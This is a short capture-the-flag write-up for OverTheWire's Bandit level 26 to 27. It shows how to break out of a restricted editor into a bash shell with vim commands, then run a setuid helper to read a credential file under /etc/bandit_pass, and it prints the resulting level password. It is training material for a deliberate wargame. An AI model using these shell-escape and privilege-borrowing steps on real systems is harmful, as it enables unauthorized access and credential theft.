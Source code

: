 # Level 26 - Level 27: Bandit - OverTheWire

## Level Goal

Good job getting a shell! Now hurry and grab the password for bandit27!

## Solution
This level is a direct continuation of the previous level. While we are in the file editing state, we can run `:set shell=/bin/bash` to change the shell back to `/bin/bash`. We can then run `:shell` to spawn that shell.

From there, retrieving the password for `bandit27` is quite trivial. We can run the `./bandit27-do` file to `cat /etc/bandit_pass/bandit27` which will execute as `bandit27` (setuid) and reveal the password.

```bash
:set shell=/bin/bash
:shell
```

```bash
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```